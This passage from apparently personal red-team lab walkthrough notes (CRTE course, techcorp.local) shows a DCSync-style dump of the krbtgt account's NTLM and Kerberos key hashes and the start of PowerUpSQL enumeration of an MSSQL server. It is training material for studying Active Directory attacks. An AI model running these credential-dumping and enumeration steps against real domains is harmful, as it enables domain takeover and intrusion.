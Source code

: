 ```powershell
[DC] 'Techcorp-DC.techcorp.local' will be the DC server
[DC] 'techcorp\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/4/2019 1:52:52 AM
Object Security ID   : S-1-5-21-2781415573-3701854478-2406986946-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 7735b8be1edda5deea6bfbacb7f2c3e7
    ntlm- 0: 7735b8be1edda5deea6bfbacb7f2c3e7
    lm  - 0: 295fa3fef874b54f29fd097c204220f0

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 9fe386f0ebd8045b1826f80e3af94aed

* Primary:Kerberos-Newer-Keys *
    Default Salt : TECHCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 290ab2e5a0592c76b7fcc5612ab489e9663e39d2b2306e053c8b09df39afae52
      aes128_hmac       (4096) : ac670a0db8f81733cdc7ea839187d024
      des_cbc_md5       (4096) : 977526ab75ea8691
```
# 18. Abusing MSSQL at `US-MSSQL`
- From [[3. CRTE/2. Lab Walkthrough/1st Forest (techcorp.local)/1. us.techcorp.local/1. Domain Enumeration|1. Domain Enumeration]] we discovered a MSSQL server on `us.techcorp.local`. We can try to access it using our initial account, `us\studentuser57`. We will use **PowerUpSQL** to enumerate and possibly exploit the database.
```powershell
PS C:\Auditor> Get-SQLInstanceDomain -Verbose
VERBOSE: Grabbing SPNs from the domain for SQL Servers (MSSQL*)...
VERBOSE: Parsing SQL Server instances from SPNs...
VERBOSE: 1 instances were found.


ComputerName     : us-mssql.us.techcorp.local
Instance         : us-mssql.us.techcorp.local
DomainAccountSid : 150000052100019514814212226574150140238186983400
DomainAccount    : US-MSSQL$
DomainAccountCn  : US-MSSQL
Service          : MSSQLSvc
Spn              : MSSQLSvc/us-mssql.us.techcorp.local
LastLogon        : 12/12/2023 12:31 AM
Description      :
```
- From the output above we realize that there are no other MSSQL servers on the domain. We can find more information about this specific server.
```powershell
PS C:\Auditor> Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
VERBOSE: us-mssql.us.techcorp.local : Connection Success.


ComputerName           : us-mssql.us.techcorp.local
```